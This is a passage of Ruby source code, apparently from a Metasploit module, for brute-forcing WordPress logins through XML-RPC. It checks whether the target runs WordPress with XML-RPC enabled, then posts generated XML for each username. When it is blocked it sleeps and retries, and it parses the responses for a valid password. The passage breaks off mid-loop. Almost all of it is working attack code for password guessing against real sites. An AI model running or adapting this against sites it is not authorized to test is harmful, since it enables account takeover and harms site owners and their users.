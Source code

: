 ```

    if !wordpress_and_online?
      print_error("#{peer}:#{rport}#{target_uri} does not appear to be running WordPress or you got blocked! (Do Manual Check)")
      nil
    elsif !wordpress_xmlrpc_enabled?
      print_error("#{peer}:#{rport}#{wordpress_url_xmlrpc} does not enable XML-RPC")
      nil
    else
      print_status("Target #{peer} is running WordPress")
      true
    end

  end

  #
  # Connection Setup
  #
  def send(xml)
    uri  = target_uri.path
    opts =
      {
        'method'  => 'POST',
        'uri'     => normalize_uri(uri, wordpress_url_xmlrpc),
        'data'    => xml,
        'ctype'   =>'text/xml'
      }
    client = Rex::Proto::Http::Client.new(rhost)
    client.connect
    req  = client.request_cgi(opts)
    res  = client.send_recv(req)

    if res && res.code != 200
      print_error('It seems you got blocked!')
      print_warning("I'll sleep for #{datastore['BLOCKEDWAIT']} minutes, then I'll try again. CTR+C to exit")
      sleep datastore['BLOCKEDWAIT'] * 60
    end
    @res = res
  end

  def run
    return if check_wpstatus.nil?

    usernames.each do |user|
      passfound = false

      print_status("Brute forcing user: #{user}")
      generate_xml(user).each do |xml|
        next if passfound == true

        send(xml)

        # Request Parser
        req_xml = Nokogiri::Slop xml
        # Response Parser
        res_xml = Nokogiri::Slop @res.to_s.scan(/<.*>/).join
        puts res_xml 
        res_xml.search("methodResponse/params/param/value/array/data/value").each_with_index do |value, i|

          result =  value.at("struct/member/value/int")
          # If response error code doesn't not exist
```